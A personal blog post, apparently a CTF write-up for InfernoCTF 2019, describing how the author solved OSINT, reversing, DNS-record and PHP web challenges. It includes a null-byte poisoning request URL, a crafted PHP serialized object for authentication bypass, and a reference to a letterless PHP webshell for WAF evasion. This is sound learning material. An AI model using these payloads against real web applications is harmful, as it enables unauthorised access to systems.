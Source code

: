 ```yaml
---
title: "My First Ever CTF: InfernoCTF"
author: chankruze
date: 2019-12-28 14:05:52 +05:30
categories: [CTF]
tags: [Writeups, CTF]
thumbnail: https://res.cloudinary.com/chankruze/image/upload/v1577522418/blog/CTF/InfernoCTF/logs.png
desc: "Writeup on the challenges i was able to solve*"
---
```

{: .align-center}
![featured-image](https://res.cloudinary.com/chankruze/image/upload/v1577522418/blog/CTF/InfernoCTF/logs.png)

Hi fellas, imma back again but this time i participated an online CTF which was a dream for me ;)

It was a lil frustrating because due to inexperince i wasn't able to solve 3 challenges which was really sneaky and i love them. Here i'll discuss how i approached them.

#### Discord
For this challenge the flag was available at discord server in channel `#announcement`.

```text
Flag: infernoCTF{Y0u_sh4ll_R0t_1n_h3ll_n0w}
```

#### New Developer
This was also very easy OSINT challenge.

I checked iamthedeveloper123's repositories list, latest commit by this time was in `bash2018` repo.

So i checked latest commit for which it was 1 commit ahead of parent [f6008f3d67829ad0ab19d029eec6833a196db8d8](https://github.com/iamthedeveloper123/bash2048/commit/f6008f3d67829ad0ab19d029eec6833a196db8d8).

```bash
  printf "\nYou have lost, better luck next time.\033[0m\n"
  source ../dotfiles/.bashrc2
  printf "\nYou have lost, try going to https://pastebin.com/$CODE for help!.  (And also for some secrets...) \033[0m\n"
```
Here it was confirmed that the `.bashrc2` file in other repo sets a variable `CODE`. By checking that file [here](https://github.com/iamthedeveloper123/dotfiles/blob/5365d3e99331d2b301dc7a0572afdd78b4c6e2db/.bashrc2#L83), i got value of CODE (`trpNwEPT`) which is the pastebin shorten code. And opeing [https://pastebin.com/trpNwEPT](https://pastebin.com/trpNwEPT) gives us the flag.

```text
Flag: infernoCTF{n3ver_4dd_sen5itv3_7hings_to_y0ur_publ1c_git}
```

Btw i was unable to solve the other challenge `Whistle Blower` which was related to this. I got a hint i guess for `InfoSec` twitter.

#### Where did he GO?
This was pretty straight forward.

The string flag was stored in bytes. so i added a print statement to see it and run without entering any password.

```bash
$ ./test 
Enter Password: 

# encrypted code
!!tA3rG_s1_gn1MMaRg0rP_0g

# mandir_wahi_banega

# jai_ram_ji_ki

# mandir_wahi_banega

# jai_ram_ji_ki

Don't Worry, Relax, Chill and Try harder
```

Becuse it was using `^` for encryption, i enterned flag as password to get the decrypted string:

```bash
$ ./test
Enter Password: !!tA3rG_s1_gn1MMaRg0rP_0g

# encrypted code
!!tA3rG_s1_gn1MMaRg0rP_0g

# mandir_wahi_banega
!!tA3rG_s1_gn1MMaRg0rP_0g

# jai_ram_ji_ki
g0_Pr0gRaMM1ng_1s_Gr3At!!
g0_Pr0gRaMM1ng_1s_Gr3At!!

# mandir_wahi_banega
!!tA3rG_s1_gn1MMaRg0rP_0g

# jai_ram_ji_ki
g0_Pr0gRaMM1ng_1s_Gr3At!!

Don't Worry, Relax, Chill and Try harder
```

Now print statements are removed and re compiled & run again:

```bash
$ ./test
Enter Password: g0_Pr0gRaMM1ng_1s_Gr3At!!
You Cracked it, A Hero is born
```

```text
Flag: infernoCTF{g0_Pr0gRaMM1ng_1s_Gr3At!!}
```

#### Check Again
This pissed off a lot !

The hint `[D]ante [N]ero [S]parda a[re] the true de[mon]s.` was awesome ! Here i get `DNSremon` which is close enough to `dnsrecon`.

```bash
$ dnsrecon -d infernoctf.live
[*] Performing General Enumeration of Domain: infernoctf.live
[!] Wildcard resolution is enabled on this domain
[!] It is resolving to 104.31.82.146
[!] All queries will resolve to this address!!
[-] All nameservers failed to answer the DNSSEC query for infernoctf.live
[*] 	 SOA cora.ns.cloudflare.com 162.159.38.195
[*] 	 NS cora.ns.cloudflare.com 162.159.38.195
[*] 	 Bind Version for 162.159.38.195 20171212
[*] 	 NS cora.ns.cloudflare.com 2606:4700:50::a29f:26c3
[*] 	 Bind Version for 2606:4700:50::a29f:26c3 20171212
[*] 	 NS sid.ns.cloudflare.com 173.245.59.143
[*] 	 Bind Version for 173.245.59.143 20171212
[*] 	 NS sid.ns.cloudflare.com 2606:4700:58::adf5:3b8f
[*] 	 Bind Version for 2606:4700:58::adf5:3b8f 20171212
[-] Could not Resolve MX Records for infernoctf.live
[*] 	 A infernoctf.live 104.31.83.146
[*] 	 A infernoctf.live 104.31.82.146
[*] 	 AAAA infernoctf.live 2606:4700:30::681f:5292
[*] 	 AAAA infernoctf.live 2606:4700:30::681f:5392
[*] 	 SPF v=spf1 a mx ?all - infernoCTF{N1c3_Pl4c3_
[*] 	 TXT infernoctf.live 70_h1d3_1n_th3_Rec0rds}
[*] 	 TXT infernoctf.live ca3-d0f129e83e07442d981e6eadd9e57915
[*] Enumerating SRV Records
[-] No SRV Records Found for infernoctf.live
[+] 0 Records Found
```

```text
Flag: infernoCTF{N1c3_Pl4c3_70_h1d3_1n_th3_Rec0rds}
```

#### Dante's Personal Home Page
`preg_match("/_| /i", $check)` can be passed using `.` which transforms to `_` in php external variables. Thanks to @13k53c for pointing to the external variable docs.

It was exploiting null byte poisoning to bypass egrep which was the second check (`ereg ("^[a-zA-Z0-9]+$", $magic)`) using any alpha numeric and `%00`. For example: `abc123%00`

The request URL can be:`http://104.197.168.32:17011/?..magic..=ABC%00$dark$`

```text
Flag: infernoCTF{1_gu3ss_y0ur_m4g1c_was_w4y_t00_d4rk}
```

**UPDATE**

#### Dank PHP
First i created a `test.php` file to generate searilized data for the `id`. Which looks like below snippet:

```php
<?php

class user {
  var $name;
  var $pass;
  var $secret;
}

$new_user = new user();

$new_user->name = "admin";
$new_user->pass = &$new_user->secret;

echo (serialize($new_user));

?>
```

This generates the serialized data `O:4:"user":3:{s:4:"name";s:5:"admin";s:4:"pass";N;s:6:"secret";R:3;}` for `id` param. Then i used python `urllib` to encode it properly:

```python
>>> import urllib
>>> urllib.quote('O:4:"user":3:{s:4:"name";s:5:"admin";s:4:"pass";N;s:6:"secret";R:3;}')
'O%3A4%3A%22user%22%3A3%3A%7Bs%3A4%3A%22name%22%3Bs%3A5%3A%22admin%22%3Bs%3A4%3A%22pass%22%3BN%3Bs%3A6%3A%22secret%22%3BR%3A3%3B%7D'
```

Now the second part was to bypass WAF and run `echoFlag()`. Which can be done with Php webshell without numbers and letters. And there was also a length limitation of 45 digits. So we required string length 45. Thanks to @13k53c again, he was able to discover [40 digits webshell](https://gist.github.com/mvisat/03592a5ab0743cd43c2aa65bf45fef21).

Now the `caption` param becomes `caption = "$_=" + make_letters("echoFlag") + ";$_();"`.

I was about to write my curl style here but @13k53c shared his awesome python script to do whole process and print the flag in one script. The script is [here](https://ideone.com/xxJmE0).

```text
Flag: infernoCTF{pHp_1s_a_h34dache}
```

Yeh definitely, it was a headache ;(

Thanks for reading ;) Will update it later when ingoing challenges are solved. Btw imma doing another CTF so, this is it !
